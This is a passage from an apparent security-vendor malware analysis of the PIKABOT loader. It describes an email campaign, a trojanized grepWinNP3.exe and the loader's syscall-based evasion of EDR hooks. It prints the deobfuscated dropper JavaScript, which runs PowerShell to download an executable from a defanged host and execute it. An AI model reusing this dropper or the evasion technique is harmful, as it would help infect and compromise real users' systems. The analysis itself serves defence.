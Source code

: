 
As the new year started, PIKABOT distribution remained inactive until approximately two weeks ago. This new campaign on February 8th involved emails with hyperlinks that led to ZIP archive files containing a malicious obfuscated Javascript script. 

![Obfuscated Javascript within ZIP archive](/assets/images/pikabot-i-choose-you/image21.png)


Below are the contents of the obfuscated JavaScript file, showing the next sequence to download and execute PIKABOT’s loader using PowerShell.

```JavaScript
// deobfuscated
var sites = ['https://gloverstech[.]com/tJWz9/', '', '']
for (var i = 0x0; i < 3; i++)
{
	var obj = new ActiveXObject("WScript.Shell")
	obj['Run']("powershell Invoke-WebRequest https://gloverstech[.]com/tJWz9/0.2343379541861872.dat -OutFile %SYSTEMDRIVE%\\Users\\Public\\Jrdhtjydhjf.exe; saps %SYSTEMDRIVE%\\Users\\Public\\Jrdhtjydhjf.exe")
}
```

## PIKABOT loader

### Loader stage 1

To appear authentic, the developer tampered with a legitimate search and replace tool called ```grepWinNP3.exe``` from [this](https://github.com/rizonesoft/Notepad3) repository. Using our internal sandboxing project ([Detonate](https://www.elastic.co/security-labs/click-click-boom-automating-protections-testing-with-detonate)) and leveraging Elastic Defend’s [call stack feature](https://www.elastic.co/security-labs/peeling-back-the-curtain-with-call-stacks) provided a detailed trace of the execution, allowing us to pinpoint the entry point of malicious code. 

An analysis of the call stack data reveals that execution begins at a call before offset ```0x81aa7``` within the malicious file; the execution then leaps to a memory allocation at a call prior to offset ```0x25d84```. Furthermore, it was observed that the process creation call stack is missing normal calls to ```KernelBase.dll!CreateProcessInternalW``` and ```ntdll.dll!NtCreateUserProcess```, due to the use of a syscall via shellcode execution residing in the [unbacked memory](https://www.elastic.co/security-labs/hunting-memory). By using this implementation, it will bypass user-mode hooks on WOW64 modules to evade EDR products. 

![Alert call stack for PIKABOT loader](/assets/images/pikabot-i-choose-you/image8.png)


Looking into the offset ```0x81aa7``` of the malicious file and conducting a side-by-side code comparison with a verified, benign version of the ```grepWinNP3.exe``` file, we identified something distinct and unusual: a hardcoded address to execute the PIKABOT loader, this marks the entrypoint of the PIKABOT loader.

![Entrypoint to malicious code](/assets/images/pikabot-i-choose-you/image1.png)


The malicious code employs heavy obfuscation, utilizing a technique where a jump (```JMP```) follows each assembly instruction. This approach significantly complicates analysis by disrupting the straightforward flow of execution.
